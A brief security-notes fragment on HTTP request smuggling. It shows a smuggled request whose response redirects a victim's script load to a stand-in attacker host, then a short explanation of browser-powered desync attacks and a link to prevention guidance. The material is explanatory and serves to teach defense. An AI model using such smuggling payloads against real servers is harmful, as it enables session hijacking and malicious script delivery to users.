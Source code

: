 ```
GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /scripts/include.js HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
```

## Browser-Powered Desync Attack

A browser-powered desync attack is when a hacker uses your browser to send specially crafted requests that confuse the servers — allowing them to hijack sessions, steal data, or perform other attacks without needing fancy hacking tools.


## Prevention

https://portswigger.net/web-security/request-smuggling#how-to-prevent-http-request-smuggling-vulnerabilities